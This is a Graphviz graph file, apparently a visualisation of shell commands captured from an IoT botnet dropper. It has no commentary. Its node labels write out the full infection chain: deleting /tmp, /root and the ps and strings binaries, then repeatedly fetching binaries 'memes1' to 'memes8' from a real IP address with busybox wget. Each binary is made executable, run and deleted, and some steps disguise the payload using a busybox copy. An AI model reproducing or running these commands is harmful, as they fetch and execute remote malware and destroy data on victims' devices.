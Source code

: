 digraph {
228 [label="rm -f * "];
228 -> 228
2 [label="busybox rm -rf /tmp/* "];
2 -> 2
4 [label="busybox rm -rf /root/* "];
4 -> 4
6 [label="busybox rm -rf /usr/bin/strings "];
6 -> 6
8 [label="busybox rm -rf /usr/bin/ps "];
8 -> 8
90 [label="busybox wget http://80.82.64.142/memes1 "];
90 -> 90
12 [label="busybox chmod +x memes1 "];
12 -> 104 [label=";,"];
104 [label="./memes1 "];
104 -> 106 [label=";,"];
106 [label="busybox rm -f memes1* "];
106 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
110 [label="busybox wget http://80.82.64.142/memes2 "];
110 -> 110
22 [label="busybox chmod +x memes2 "];
22 -> 124 [label=";,"];
124 [label="./memes2 "];
124 -> 126 [label=";,"];
126 [label="busybox rm -f memes2* "];
126 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
130 [label="busybox wget http://80.82.64.142/memes3 "];
130 -> 130
32 [label="busybox chmod +x memes3 "];
32 -> 144 [label=";,"];
144 [label="./memes3 "];
144 -> 146 [label=";,"];
146 [label="busybox rm -f memes3* "];
146 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
150 [label="busybox wget http://80.82.64.142/memes4 "];
150 -> 150
42 [label="busybox chmod +x memes4 "];
42 -> 164 [label=";,"];
164 [label="./memes4 "];
164 -> 166 [label=";,"];
166 [label="busybox rm -f memes4* "];
166 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
170 [label="busybox wget http://80.82.64.142/memes5 "];
170 -> 170
52 [label="busybox chmod +x memes5 "];
52 -> 184 [label=";,"];
184 [label="./memes5 "];
184 -> 186 [label=";,"];
186 [label="busybox rm -f memes5* "];
186 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
190 [label="busybox wget http://80.82.64.142/memes6 "];
190 -> 190
62 [label="busybox chmod +x memes6 "];
62 -> 204 [label=";,"];
204 [label="./memes6 "];
204 -> 206 [label=";,"];
206 [label="busybox rm -f memes6* "];
206 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
210 [label="busybox wget http://80.82.64.142/memes7 "];
210 -> 210
72 [label="busybox chmod +x memes7 "];
72 -> 224 [label=";,"];
224 [label="./memes7 "];
224 -> 226 [label=";,"];
226 [label="busybox rm -f memes7* "];
226 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
80 [label="busybox wget http://80.82.64.142/memes8 "];
80 -> 80
82 [label="busybox chmod +x memes8 "];
82 -> 84 [label=";,"];
84 [label="./memes8 "];
84 -> 86 [label=";,"];
86 [label="busybox rm -f memes8* "];
86 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
90 [label="busybox wget http://80.82.64.142/memes1 "];
90 -> 90
212 [label="busybox cp /bin/busybox ./ "];
212 -> 94 [label=";,"];
94 [label="busybox cat memes1 busybox "];
94 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
98 [label="busybox rm -f memes1 "];
98 -> 100 [label=";,"];
100 [label="busybox cp busybox memes1 "];
100 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 104 [label=";,"];
104 [label="./memes1 "];
104 -> 106 [label=";,"];
106 [label="busybox rm -f memes1* "];
106 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
110 [label="busybox wget http://80.82.64.142/memes2 "];
110 -> 110
212 [label="busybox cp /bin/busybox ./ "];
212 -> 114 [label=";,"];
114 [label="busybox cat memes2 busybox "];
114 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
118 [label="busybox rm -f memes2 "];
118 -> 120 [label=";,"];
120 [label="busybox cp busybox memes2 "];
120 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 124 [label=";,"];
124 [label="./memes2 "];
124 -> 126 [label=";,"];
126 [label="busybox rm -f memes2* "];
126 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
130 [label="busybox wget http://80.82.64.142/memes3 "];
130 -> 130
212 [label="busybox cp /bin/busybox ./ "];
212 -> 134 [label=";,"];
134 [label="busybox cat memes3 busybox "];
134 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
138 [label="busybox rm -f memes3 "];
138 -> 140 [label=";,"];
140 [label="busybox cp busybox memes3 "];
140 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 144 [label=";,"];
144 [label="./memes3 "];
144 -> 146 [label=";,"];
146 [label="busybox rm -f memes3* "];
146 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
150 [label="busybox wget http://80.82.64.142/memes4 "];
150 -> 150
212 [label="busybox cp /bin/busybox ./ "];
212 -> 154 [label=";,"];
154 [label="busybox cat memes4 busybox "];
154 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
158 [label="busybox rm -f memes4 "];
158 -> 160 [label=";,"];
160 [label="busybox cp busybox memes4 "];
160 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 164 [label=";,"];
164 [label="./memes4 "];
164 -> 166 [label=";,"];
166 [label="busybox rm -f memes4* "];
166 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
170 [label="busybox wget http://80.82.64.142/memes5 "];
170 -> 170
212 [label="busybox cp /bin/busybox ./ "];
212 -> 174 [label=";,"];
174 [label="busybox cat memes5 busybox "];
174 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
178 [label="busybox rm -f memes5 "];
178 -> 180 [label=";,"];
180 [label="busybox cp busybox memes5 "];
180 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 184 [label=";,"];
184 [label="./memes5 "];
184 -> 186 [label=";,"];
186 [label="busybox rm -f memes5* "];
186 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
190 [label="busybox wget http://80.82.64.142/memes6 "];
190 -> 190
212 [label="busybox cp /bin/busybox ./ "];
212 -> 194 [label=";,"];
194 [label="busybox cat memes6 busybox "];
194 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
198 [label="busybox rm -f memes6 "];
198 -> 200 [label=";,"];
200 [label="busybox cp busybox memes6 "];
200 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 204 [label=";,"];
204 [label="./memes6 "];
204 -> 206 [label=";,"];
206 [label="busybox rm -f memes6* "];
206 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
210 [label="busybox wget http://80.82.64.142/memes7 "];
210 -> 210
212 [label="busybox cp /bin/busybox ./ "];
212 -> 214 [label=";,"];
214 [label="busybox cat memes7 busybox "];
214 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
218 [label="busybox rm -f memes7 "];
218 -> 220 [label=";,"];
220 [label="busybox cp busybox memes7 "];
220 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 224 [label=";,"];
224 [label="./memes7 "];
224 -> 226 [label=";,"];
226 [label="busybox rm -f memes7* "];
226 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
230 [label="sleep 1 "];
230 -> 230
}
